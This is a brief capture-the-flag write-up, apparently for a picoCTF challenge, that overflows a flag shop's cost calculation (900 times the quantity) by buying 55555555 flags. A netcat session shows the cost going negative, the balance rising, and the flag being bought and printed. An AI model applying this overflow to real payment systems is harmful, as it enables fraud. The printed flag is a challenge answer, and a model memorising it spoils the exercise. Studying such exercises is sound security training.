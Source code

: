 The line that interests me the most is ```total_cost = 900*number_flags;```. If we cause the total cost to get high enough we can overflow the integer.

If we enter a huge number for number_flags we can overflow the integer. We will use the number 55555555.

```
PS >nc 2019shell1.picoctf.com 63894
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2


Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1


These knockoff Flags cost 900 each, enter desired quantity
55555555

The final cost is: -1539608052

Your current balance after transaction: 1539609152

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection

2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_818a7f84}
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
```
